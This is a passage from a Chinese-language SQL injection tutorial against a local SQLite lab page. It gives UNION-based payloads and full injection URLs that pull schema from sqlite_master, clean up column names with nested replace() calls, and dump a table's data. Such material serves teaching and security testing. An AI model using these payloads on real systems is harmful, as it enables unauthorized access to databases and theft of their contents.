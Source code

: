 **获取列名**

对于获取列名来说，同样有个简单的SQL查询来从指定表中获取列名。

```
union SELECT 1,sql,3,4,5 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name='table_name'
```

只要把上述查询中的table_name替换为你想要获取列名的相应表的表名即可，在本例中，我想获取info表的列名：

```
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,sql,3,4,5 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='info'
```

[![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013d9b3de5a1366bc2.png)

**获取“干净”列名的payload**

用以下payload来替代'sql',其余的payload保持不变

```
replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~')
```

Inject URL:

```
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union select 1,replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),3,4,5 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' and name='info'
```

[![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t012d2ca62e53c52e4c.png)

**获取列中的数据**

现在我们有了表名和列名，最后一件事就是去获取我们想要的列中对应的数据了，可以使用如下SQL查询：

```
Select column_name from table_name
```

只要将column_name和table_name替换为你想要的名字就行了，在本例中表名为info，列名为OS，因此最终查询语句为:

```
select OS from info
```

Inject URL

```
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,OS,3,4,5 FROM info
```

[![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01bfa95701b6d6693e.png)
